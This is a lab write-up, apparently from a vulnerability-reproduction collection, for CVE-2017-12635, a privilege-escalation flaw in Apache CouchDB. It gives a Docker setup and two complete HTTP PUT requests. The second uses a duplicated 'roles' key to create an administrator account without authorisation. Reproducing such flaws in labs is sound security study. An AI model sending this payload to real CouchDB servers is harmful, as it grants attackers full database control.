

# Couchdb Vertical Permissions Bypass Vulnerability (CVE-2017-12635)

Apache CouchDB is an open source database that focuses on ease of use and becomes "a database that fully embraces the web." It is a NoSQL database that uses JSON as the storage format, JavaScript as the query language, MapReduce and HTTP as the API. Widely used, such as the BBC used in its dynamic content display platform, Credit Suisse uses the market framework of its internal merchandise department, Meebo, used in its social platforms (web and applications).

On November 15, 2017, CVE-2017-12635 and CVE-2017-12636 disclose that CVE-2017-12635 is caused by the difference in the way JSON is parsed by Erlang and JavaScript, resulting in differences in statement execution. This vulnerability allows any user to create an administrator and is a vertical permission bypass vulnerability.

Impact version: less than 1.7.0 and less than 2.1.1

Reference link:

 - http://bobao.360.cn/learning/detail/4716.html
 - https://justi.cz/security/2017/11/14/couchdb-rce-npm.html

## test environment

Compile and start the environment:

```
Docker-compose build
Docker-compose up -d
```

After the environment is started, visit `http://your-ip:5984/_utils/` to see a web page indicating that Couchdb has started successfully. But we don't know the password and can't log in.

## Vulnerability recurrence

First, send the following packet:

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 90

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "password": "vulhub"
}
```

Visible, return 403 error: `{"error": "forbidden", "reason": "Only _admin may set roles"}`, only the administrator can set the Role role:


By sending a packet containing two roles, you can bypass the limit:

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 108

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "roles": [],
  "password": "vulhub"
}
```

Successfully created the administrator, the account password is `vulhub`:


Visit `http://your-ip:5984/_utils/` again and enter the account password `vulhub` to log in successfully:

